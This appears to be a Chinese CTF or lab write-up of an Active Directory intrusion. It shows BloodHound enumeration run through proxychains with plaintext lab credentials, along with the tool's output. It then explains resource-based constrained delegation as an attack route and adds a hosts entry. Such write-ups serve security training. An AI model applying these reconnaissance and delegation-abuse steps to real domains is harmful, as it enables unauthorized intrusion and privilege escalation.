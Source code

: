 使用 `huachunmei` 的凭据登录 `XIAORANG\XR-0687 - 172.22.15.35`

![img](img/image_20240731-163157.png)

直接通过 RDP 看不出有用的信息，启动 `Bloodhound`

首先先收集信息

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
INFO: Found AD domain: xiaorang.lab
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (xr-dc01.xiaorang.lab:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 37 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: XR-CA.xiaorang.lab
INFO: Querying computer: XR-0687.xiaorang.lab
INFO: Querying computer: XR-DC01.xiaorang.lab
INFO: Done in 00M 22S
INFO: Compressing output into 20240726164051_bloodhound.zip
```

然后开始分析

![img](img/image_20240703-170354.png)

## 172.22.15.35 RBCD

:::info RBCD

RBCD 在 Windows 2012 才引入，08 是没有这个概念的

RBCD 和传统的约束委派的区别就是，约束是在资源服务器上进行配置的，传统的约束委派中，资源服务器只能被动的接受委派，是否能够委派到资源服务器由委派服务器进行控制

RBCD 可以通过 msDS-AllowedToActOnBehalfOfOtherIdentity 属性来控制委派服务器是否能够委派任意用户来访问自己

:::

添加 hosts 记录

```shell
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
```
